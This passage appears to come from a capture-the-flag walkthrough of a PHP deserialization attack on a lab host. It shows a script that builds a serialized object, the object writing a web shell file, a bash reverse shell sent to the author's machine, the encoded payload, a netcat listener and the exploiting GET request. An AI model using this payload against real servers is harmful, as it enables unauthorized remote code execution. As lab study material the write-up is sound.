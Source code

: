 So, what we need to do is to create a serialized `DatabaseExport` object and make sure to URL encode it to avoid encoding problem. We can set `$user_file` and `$data` as follows:

```php
<?php

class DatabaseExport
{
	public $user_file = 'shell.php';
	public $data = '<?php passthru("/bin/bash -c \'bash -i >& /dev/tcp/10.10.14.24/4444 0>&1\'") ?>';
}

print urlencode(serialize(new DatabaseExport))

?>
```

`$data` contains the php code needed to establish a reverse shell and send it to our local machine. The code will be written to `$user_file`, in this case, `shell.php`. Once we made the GET request with the appropriate parameter, we can visit `10.10.10.223/shell.php` and the php code will be executed by the server, which will give us the reverse shell.

Execute the PHP script (in this case, I named it `serialise.php`) that we created to get the url encoded serialized php object.

```
$ php serialise.php
O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A4%3A%22data%22%3Bs%3A77%3A%22%3C%3Fphp+passthru%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.14.24%2F4444+0%3E%261%27%22%29+%3F%3E%22%3B%7D
```

Now, let's set up a netcat listener in our local machine with `nc -nlvp 4444` and make GET request to

```
10.10.10.223/sator.php?arepo=O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A4%3A%22data%22%3Bs%3A77%3A%22%3C%3Fphp+passthru%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.14.24%2F4444+0%3E%261%27%22%29+%3F%3E%22%3B%7D
```

If our GET request is successful, we will be shown the following on `sator.php` page
![sator.php](images/6.png)
